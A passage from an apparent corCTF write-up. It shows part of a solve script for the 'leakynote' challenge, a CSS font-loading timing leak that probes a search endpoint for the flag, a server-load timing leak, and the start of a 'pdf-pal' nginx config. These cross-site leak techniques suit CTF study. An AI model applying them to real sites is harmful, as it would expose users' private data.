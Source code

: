 ``` html
  }

  // copy paste the following from python script
  async function main() {
    await testNote('{a','https://leakynote.be.ax/post.php?id=c9193aee91b0fc29')
await testNote('{c','https://leakynote.be.ax/post.php?id=9f2d1bd495927bc2')
await testNote('{d','https://leakynote.be.ax/post.php?id=0c6caa61575b9478')
await testNote('{e','https://leakynote.be.ax/post.php?id=071e07ec5b7fc2be')
await testNote('{f','https://leakynote.be.ax/post.php?id=71652df64d54c0e4')
await testNote('{g','https://leakynote.be.ax/post.php?id=354f3bec25e02332')
await testNote('{k','https://leakynote.be.ax/post.php?id=066aa475493e1a4c')
await testNote('{l','https://leakynote.be.ax/post.php?id=54a12f7b11098d2a')
await testNote('{o','https://leakynote.be.ax/post.php?id=621591145bcfc8e0')
await testNote('{r','https://leakynote.be.ax/post.php?id=6b44725cb5e274f0')
await testNote('{t','https://leakynote.be.ax/post.php?id=e025b26e5e7117a1')
await testNote('{y','https://leakynote.be.ax/post.php?id=f10001d89230485e')
await testNote('{z','https://leakynote.be.ax/post.php?id=a71fc5d1ff81edad')
  }

  main()
</script>
```

After the competition, I saw two other interesting solutions. One of them leaks the information by loading fonts. When you do this:

``` css
@font-face {
    font-family: a;
    src: url(/time-before),url(/search.php?query=corctf{a),url(/search.php?query=corctf{a),... /*10000 times */,url(/time-after)
}
```

Chrome determines how to handle it based on the status code. If it is 200, it checks if it is a valid font. If it is 404, it fails directly. Therefore, you can use the loading time of the font to determine the status code.

ref: https://gist.github.com/parrot409/09688d0bb81acbe8cd1a10cfdaa59e45

The other solution also utilizes the feature of whether the CSS file is loaded, but instead of using cache, it causes server-side busyness by opening a large number of pages at once and slows down the response time to determine.

ref: https://gist.github.com/arkark/3afdc92d959dfc11c674db5a00d94c09

### pdf-pal (2 solves)

The nginx config for this challenge looks like this:

```
location / {
    proxy_pass http://localhost:7777;

    location ^~ /generate {
        allow 127.0.0.1;
        deny all;
    }

    location ^~ /rename {
        allow 127.0.0.1;
        deny all;
    }
}
```
